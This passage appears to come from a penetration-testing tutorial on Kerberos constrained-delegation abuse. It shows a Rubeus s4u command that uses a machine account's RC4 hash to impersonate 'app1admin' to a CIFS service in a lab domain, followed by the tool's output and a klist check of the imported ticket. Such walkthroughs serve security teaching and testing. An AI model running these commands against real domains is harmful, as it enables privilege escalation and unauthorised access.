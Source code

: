 And then crafting a ticket:

```powershell
PS C:\> .\Rubeus.exe s4u /user:App2$ /rc4:EED530845242DD4013C0BEF37787EA33 /impersonateuser:app1admin /msdsspn:cifs/app1.oposec.local /ptt /output:ticket.txt /domain:oposec.local /dc:51.137.206.45

 Rubeus v1.6.4

[*] Action: S4U

[*] Using rc4_hmac hash: EED530845242DD4013C0BEF37787EA33
[*] Building AS-REQ (w/ preauth) for: 'oposec.local\App2$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE3DCCBNigAwIBBaEDAgEWooID9DCCA/BhggPsMIID6KADAgEFoQ4bDE9QT1NFQy5MT0NBTKIhMB+g...


[*] Action: S4U

[*] Using domain controller: 51.137.206.45
[*] Building S4U2self request for: 'App2$@OPOSEC.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'app1admin' to 'App2$@OPOSEC.LOCAL'
[*] base64(ticket.kirbi):

      doIFGjCCBRagAwIBBaEDAgEWooIEPTCCBDlhggQ1MIIEMaADAgEFoQ4bDE9QT1NFQy5MT0NBTKISMBCg...

[*] Impersonating user 'app1admin' to target SPN 'cifs/app1.oposec.local'
[*] Using domain controller: 51.137.206.45
[*] Building S4U2proxy request for service: 'cifs/app1.oposec.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/app1.oposec.local':

      doIF4jCCBd6gAwIBBaEDAgEWooIE8zCCBO9hggTrMIIE56ADAgEFoQ4bDE9QT1NFQy5MT0NBTKIkMCKg...

[+] Ticket successfully imported!
```

As it can be seen at the end Rubeus automatically adds the generated ticket to our localhost. This can be checked using `klist`:

```powershell
PS C:\> klist
Current LogonId is 0:0x1f6bb
Cached Tickets: (1)

#0>     Client: app1admin @ OPOSEC.LOCAL
        Server: cifs/app1.oposec.local @ OPOSEC.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 6/26/2021 16:55:48 (local)
        End Time:   6/27/2021 2:55:48 (local)
        Renew Time: 7/3/2021 16:55:48 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
